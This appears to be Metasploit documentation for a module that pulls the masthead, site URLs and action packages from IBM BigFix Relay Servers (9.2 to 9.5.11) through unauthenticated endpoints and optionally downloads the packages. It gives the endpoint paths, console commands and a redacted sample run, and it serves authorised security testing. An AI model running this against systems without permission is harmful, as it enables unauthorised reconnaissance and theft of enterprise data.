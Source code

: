 ## Description

This module performs unauthenticated requests to retrieve masthead, sites, and packages information from IBM BigFix Relay Servers. If the **DOWNLOAD** option is set then the module will attempt to download the identified packages. This module has been tested against Relay Server 9.5.10.79.

## Vulnerable Application

BigFix Platform 9.2 - 9.2.16 and 9.5 - 9.5.11

## Options

**SHOW_MASTHEAD**

Default: true. Read Organization name from `/masthead/masthead.axfm`

**SHOW_PACKAGES**

Default true. Read Action values and packages names from `/cgi-bin/bfenterprise/BESMirrorRequest.exe`

**SHOW_SITES**

Default true. Read Site URLs from `/cgi-bin/bfenterprise/clientregister.exe?RequestType=FetchCommands`

**DOWNLOAD**

Default true. Attempt to download identified packages.

**ShowURL**

Default false. Show full URL for the packages instead of the filename.

## Verification Steps

1. `./msfconsole -q`
2. `use auxiliary/gather/ibm_bigfix_sites_packages_enum`
3. `set rhosts <rhost>`
4. `exploit`

## Scenarios

### Relay Version 9.5.10.79

```
msf5 > use auxiliary/gather/ibm_bigfix_sites_packages_enum
msf5 auxiliary(gather/ibm_bigfix_sites_packages_enum) > set rhosts <rhost>
rhosts => <rhost>
msf5 auxiliary(gather/ibm_bigfix_sites_packages_enum) > exploit
[*] Running module against [IP]

[+] [Organization]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/actionsite
[+] http://[hostname]:52311/cgi-bin/bfenterprise/PostResults.exe
<snip>
[*] Sites
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
<snip>
[*] Packages
[*] Action: [action number]
[+] File: [package name]
[*] Action: [action number]
[+] File: [package name]
<snip>
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ibm_bigfix_sites_packages_enum) >
```
